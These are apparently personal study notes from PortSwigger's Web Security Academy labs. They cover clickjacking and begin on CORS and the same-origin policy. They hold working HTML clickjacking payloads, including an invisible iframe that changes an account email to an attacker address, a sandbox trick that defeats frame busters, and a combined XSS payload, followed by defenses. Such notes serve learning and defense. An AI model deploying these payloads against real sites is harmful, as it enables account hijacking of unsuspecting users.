 # Web application security

- [Source](portswigger.net)

## Clickjacking

- UI based attack, user doesn't see the actual button/link they are clikcing on. Can be a full website hidden from the user embedded inside an iframe
- Differs from a CSRF attack, request not forged without user knowledge
- Use CSS to obscure something and let user click the button

- basic clickjacking

```html

  <style>
   iframe {
       position:relative;
       width: 700px;
       height: 500px;
       opacity: 0.00001;
       z-index: 2;
   }
   div {
       position:absolute;
       top: 300px;
       left: 60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://ace71f3e1e0583a180134485008600bf.web-security-academy.net/account"></iframe>
```

- Clickjacking when url param based form filling is allowed, ie, a GET is done and then a POST action on user interaction

```html
<style>
iframe {
 position: relative;
 width: 700px;
 height: 500px;
 opacity: 0.1;
 z-index: 2;
}

div {
 position:absolute;
 top: 425px;
 left: 80px;
 z-index: 1;
}
</style>
<div>Click me</div>
<iframe src="https://acb01f191e41fd11802a0456009600e7.web-security-academy.net/email?email=hacker@attacker-website.com"></iframe>
 ```

- Clickjacking is posible when websites can be framed, ie iframe
- Frame busting sciprts are employed by browsers to make sure no websites are embedded in another website are not invisible and make them unclickable
  - check and enforce that the current application window is the main or top window
  - make all frames visible
  - prevent clicking on invisible frames
  - intercept and flag potential clickjacking attacks to the user
- To workaround this, iframe `sandbox` attr can be set `allow-forms` or `allow-scripts` values and the `allow-top-navigation` value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window

```<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>```

- Both the allow-forms and allow-scripts values permit the specified actions within the iframe but top-level navigation is disabled. This inhibits frame busting behaviors while allowing functionality within the targeted site

- Clickjacking when browser/website is implementing a frame buster

```html
<style>
iframe {
 position: relative;
 width: 700px;
 height: 500px;
 opacity: 0.0001;
 z-index: 2;
}

div {
 position:absolute;
 top: 400px;
 left: 80px;
 z-index: 1;
}
</style>
<div>Click me</div>
<iframe src="https://ac501f021f1c595680911ada00400048.web-security-academy.net/email?email=hacker@attacker-website.com"
sandbox="allow-forms"></iframe>
```

- clickjacking and XSS attack

```html
<style>
iframe {
 position: relative;
 width: 700px;
 height: 500px;
 opacity: 0.0001;
 z-index: 2;
}

div {
 position:absolute;
 top: 400px;
 left: 80px;
 z-index: 1;
}
</style>
<div>Click me</div>
<iframe src="https://ac501f021f1c595680911ada00400048.web-security-academy.net/feedback??name=<img src=1 onerror=alert(1)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

- Clickjacking, multistep

```html
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0.1;
       z-index: 2;
   }
   .firstClick, .secondClick {
       position:absolute;
       top:275px;
       left:50px;
       z-index: 1;
   }
   .secondClick {
       left:200px;
   }
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://acd31f6b1eacfdd2804c14f80087006c.web-security-academy.net/account"></iframe>
```

### Prevention

#### X-Frame-Options

- Provides website owner control over use of iframes/objects
  - X-Frame_Options: deny -- No ifrmaes
  - X-Frame_Options: sameorigin -- Only from same origin
  - X-Frame_Options: allow-from `url or domain allowed to be framed`

- Returned from server

#### Content Security Policy (CSP)

- A detection and prevention mechanism applied at the web server level, returned as a header `Content-Security-Policy: _string of policy directives_`
  - Content-Security-Policy: frame-ancestors 'none'; (X-Frame_Options: deny)
  - Content-Security-Policy: frame-ancestors 'self'; (X-Frame_Options: sameorigin)
  - Content-Security-Policy: frame-ancestors `websiteAddress/domain`; (allow from)

## Cross-origin resource sharing (CORS)

- Allows controlled access to resources in another domain
- Gives some flexibilty to Same Origin Policy (SOP)
  - SOP is a web browser security mechanism, prevents scripts (JS) from accessing data on another origin/domain, allowing access only if `domain`, `port` and `scheme` match
  - SOP implementation
    - URL: `http://cows-are-god.com/cow/gowmata.html`
      - `http://cows-are-god.com/cow` - allowed; same scheme, domain and port
      - `http://cows-are-god.com/cow3` - allowed; same scheme, domain and port
      - `https://cows-are-god.com/cow` - not allowed; diff schema and port
      - `https://en.cows-are-god.com/cow` - not allowed; different domain
      - `https://www.cows-are-god.com/cow` - not allowed; different domain
      - `https://cows-are-god.com:8080/cow` - not allowed; different port